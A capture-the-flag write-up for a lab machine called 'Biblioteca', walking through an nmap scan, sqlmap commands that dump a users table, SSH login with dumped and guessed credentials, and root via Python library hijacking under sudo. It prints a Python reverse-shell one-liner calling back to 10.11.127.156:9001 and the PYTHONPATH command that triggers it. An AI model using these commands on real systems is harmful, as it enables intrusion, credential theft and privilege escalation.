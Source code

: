 # Biblioteca

### Biblioteca
Nmap scan shows ports 22 and 8000. Port 8000 contains an http server. It contains a login page, but I don't have credentials so I try to register, and it just welcomes me. Since it prints my username, I try to create an account called `<script>alert(1);</script>` but it says this:<br />
![image](https://github.com/user-attachments/assets/9886dba5-4753-4cf1-a549-109e4fe69a65)<br />
I found an sql injection using sqlmap: `sqlmap -r request -p username --risk 3 --level 5  --dbs --batch --dbms=mysql`<br />
![image](https://github.com/user-attachments/assets/a88d089b-0179-4424-b8b2-5692455d019e)<br />
So I know that there's a database called `website`. I know want to enumerate what are the tables of this DB. `sqlmap -r request -p username --risk 3 --level 5 --batch --dbms=mysql -D website --tables`:<br />
![image](https://github.com/user-attachments/assets/62b0eb62-243c-48e4-82e7-a71774210feb)<br />
Good, now I want to know what's inside this table `users`. So I run `sqlmap -r request -p username --risk 3 --level 5 --batch --dbms=mysql -D website -T users --dump`. This retrieves a set of credentials for the user `smokey`.
<br />
I use them to access smokey's ssh account. At this point I was stuck for about two hours... but then my friend [Simone](https://github.com/SimoneCiferri) enlighted me. He told me: "why don't you try `hazel:hazel`. It worked. LOL.<br />
Now If I run `sudo -l` I get this:<br />
![image](https://github.com/user-attachments/assets/7e773375-8d5e-4601-a874-b3f25b5c621c)<br />
And this is the code of the python file:

    import hashlib
    
    def hashing(passw):
    
        md5 = hashlib.md5(passw.encode())
    
        print("Your MD5 hash is: ", end ="")
        print(md5.hexdigest())
    
        sha256 = hashlib.sha256(passw.encode())
    
        print("Your SHA256 hash is: ", end ="")
        print(sha256.hexdigest())
    
        sha1 = hashlib.sha1(passw.encode())
    
        print("Your SHA1 hash is: ", end ="")
        print(sha1.hexdigest())
    
    
    def main():
        passw = input("Enter a password to hash: ")
        hashing(passw)
    
    if __name__ == "__main__":
        main()

I found a guide explaining how to exploit this [here](https://github.com/gurkylee/Linux-Privilege-Escalation-Basics). Basically it's some kind of library hijacking.<br />
To exploit this, we need to run the following command: `cp /usr/lib/python3.8/hashlib.py /tmp/hashlib.py`.<br />
Then I put the following code at the beginning of the new hashlib.py file:

    import os,pty,socket;s=socket.socket();s.connect(("10.11.127.156",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
Then I listen with netcat on port 9001, and execute `sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py`:<br />
![image](https://github.com/user-attachments/assets/6219c3a8-1c1e-4e2f-afde-6b6bd81891cf)<br />
This got me the root flag!


